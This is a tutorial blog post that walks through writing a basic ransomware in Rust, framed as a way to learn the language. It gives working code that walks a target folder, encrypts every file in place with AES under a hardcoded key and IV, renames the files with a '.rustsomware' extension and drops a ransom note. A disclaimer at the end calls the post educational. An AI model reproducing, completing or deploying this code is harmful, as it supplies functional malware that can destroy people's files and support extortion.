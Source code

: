 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing a ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in rust. Later on, I made few contributions to the amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and writting nowadays a unique C2 framework written (mostly) in rust. If you are familiar with Rust, you can skip to Part 2 below. The whole code for this blog post is avaliable in my Github profile :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES]("https://en.wikipedia.com/wiki/Advanced_Encryption_Standard") cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself]("https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx"). The code above is a simple example of how to use aes128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github]("https://github.com/idov31"), for any question feel free to ask me on [Twitter]("https://twitter.com/idov31").

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.
